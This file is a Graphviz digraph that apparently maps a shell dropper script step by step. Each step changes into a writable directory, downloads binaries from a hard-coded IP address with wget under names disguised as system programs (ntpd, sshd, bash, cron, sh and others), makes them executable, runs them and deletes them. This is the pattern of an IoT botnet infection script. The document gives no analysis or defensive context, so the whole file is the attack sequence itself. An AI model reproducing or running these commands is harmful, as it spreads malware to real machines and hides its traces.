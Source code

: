 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://85.159.237.19/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://85.159.237.19/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://85.159.237.19/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://85.159.237.19/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://85.159.237.19/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://85.159.237.19/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://85.159.237.19/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://85.159.237.19/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://85.159.237.19/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://85.159.237.19/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 177 [label=";,"];
}
